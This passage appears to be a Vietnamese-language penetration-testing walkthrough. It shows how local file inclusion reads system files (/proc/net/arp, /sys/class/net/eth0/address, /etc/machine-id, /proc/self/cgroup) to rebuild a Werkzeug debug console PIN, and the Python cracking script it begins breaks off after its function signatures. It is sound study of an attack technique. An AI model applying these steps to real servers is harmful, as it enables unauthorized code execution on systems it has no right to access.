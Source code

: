 
Tiếp tục với  trường **private_bits**:

1. MAC address của interface

   Với LFI : xem /proc/net/arp để xem các device name. Ở đây chúng ta có eth0

   ![image-20230830144950716](../../assets/images/image-20230830144950716.png)

   Để lấy được mac address của eth0 với LFI: /sys/class/net/eth0/address

   và đổi sang thập phân:

   ```python
   >>>print(0xfbb37b1fef43)
   276748283408195
   ```
   
2. machine-id + cgroup value

   Thành phần cuối cùng để tạo PIN là một string bao gồm:

   * machine-id: tìm thấy ở /etc/machine-id : **9d01ccfec57941928e8cda4fab88266b**

   * cgroup value: tìm thấy ở /proc/<pid flask app>/cgroup hoặc với LFI thì /proc/self/cgroup

     ![image-20230830145818022](../../assets/images/image-20230830145818022.png)

     Chỉ lấy giá trị cuối cùng ngăn cách bởi dấu /, ở đây thu được **session-2.scope**

   Cuối cùng chúng ta ghép lại thu được chuỗi **9d01ccfec57941928e8cda4fab88266bsession-2.scope**

   Lưu ý là tùy phiên bản, những phiên bản cũ hơn của Werkzeug chỉ cần machine-id là đủ để tạo PIN

   Vậy là chúng ta thông qua LFI đã thu thập đủ thông tin để reproduce PIN. Giờ chỉ cần mô phỏng lại quá trình tạo PIN với các thông tin vừa tìm được và so sánh với mã PIN gốc xem liệu có thành công hay không.

   

   Dưới đây là code reproduce PIN bằng python. Tùy vào version của Flask và Werkzeug mà hash có thể là MD5 hoặc SHA1.

   ```python
   import itertools
   import hashlib
   from itertools import chain
   
   def crack_md5(username, modname, appname, flaskapp_path, node_uuid, machine_id):
       h = hashlib.md5()
       crack(h, username, modname, appname, flaskapp_path, node_uuid, machine_id)
   
   def crack_sha1(username, modname, appname, flaskapp_path, node_uuid, machine_id):
       h = hashlib.sha1()
       crack(h, username, modname, appname, flaskapp_path, node_uuid, machine_id)
   
   def crack(hasher, username, modname, appname, flaskapp_path, node_uuid, machine_id):
   ```